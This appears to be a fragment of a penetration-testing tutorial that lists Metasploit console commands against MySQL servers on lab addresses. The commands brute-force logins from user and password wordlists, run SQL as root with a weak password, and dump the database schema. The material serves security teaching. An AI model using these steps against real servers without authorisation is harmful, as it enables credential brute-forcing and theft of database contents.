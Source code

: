 
# use auxiliary/scanner/mysql/mysql_login
# set rhosts 192.168.1.4
# set user_file /root/Desktop/user.txt
# set pass_file /root/Desktop/pass.txt
# exploit



 Running SQL queries without Login into Mysql
 ---------------------------------------------
 - allows for simple SQL statements to be executed against a MySQL instance 

# use auxiliary/admin/mysql/mysql_sql
# set rhosts 192.162.1.108
# set username root
# set password 123
# set sql show databases
# exploit



 Extract Mysql-Schemadump Information
 -------------------------------------
 - Our next module extracts the schema information from a MySQL DB server. 

# use auxiliary/scanner/mysql/mysql_schemadump
# set rhosts 192.168.1.4
# set username root
# set password 123
# exploit
